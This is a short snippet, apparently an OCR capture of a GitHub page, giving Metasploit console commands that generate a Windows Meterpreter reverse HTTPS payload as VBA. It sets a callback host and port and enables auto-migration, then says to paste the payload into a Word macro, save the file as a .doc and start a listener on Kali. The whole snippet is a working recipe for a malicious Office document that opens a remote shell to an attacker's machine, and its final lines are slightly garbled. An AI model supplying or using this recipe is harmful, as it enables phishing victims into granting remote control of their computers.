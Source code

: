 ```bash
# in msfconsole
msf6 exploit(multi/fileformat/office_word_macro) > use windows/meterpreter/reverse_https
msf6 payload(windows/meterpreter/reverse_https) > set LHOST 10.0.254.201
LHOST => 10.0.254.201
msf6 payload(windows/meterpreter/reverse_https) > set LPORT 443
LPORT => 443
msf6 payload(windows/meterpreter/reverse_https) > set AutoRunScript post/windows/manage/smart_migrate
AutoRunScript => post/windows/manage/smart_migrate
msf6 payload(windows/meterpreter/reverse_https) > generate -f vba
# PAYLOAD copy from stdout
```
Add to macros and save as doc (Compatibility Mode)
open listener on kali
payload windows/meterpreter/reverse_https
LHOST 443
